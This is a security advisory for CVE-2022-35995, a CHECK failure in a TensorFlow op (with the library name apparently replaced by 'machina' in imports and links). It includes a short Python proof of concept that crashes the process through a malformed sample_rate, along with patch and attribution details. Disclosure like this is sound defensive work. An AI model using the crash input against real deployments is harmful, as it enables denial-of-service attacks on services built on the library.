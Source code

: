 ## TFSA-2022-125: `CHECK` fail in `AudioSummaryV2`

### CVE Number
CVE-2022-35995

### Impact
When `AudioSummaryV2` receives an input `sample_rate` with more than one element, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import machina as tf
arg_0=''
arg_1=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_2=tf.random.uniform(shape=(2,1), dtype=tf.float32, maxval=None)
arg_3=3
arg_4=''
tf.raw_ops.AudioSummaryV2(tag=arg_0, tensor=arg_1, sample_rate=arg_2,
                          max_outputs=arg_3, name=arg_4)
```

### Patches
We have patched the issue in GitHub commit [bf6b45244992e2ee543c258e519489659c99fb7f](https://github.com/machina/machina/commit/bf6b45244992e2ee543c258e519489659c99fb7f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
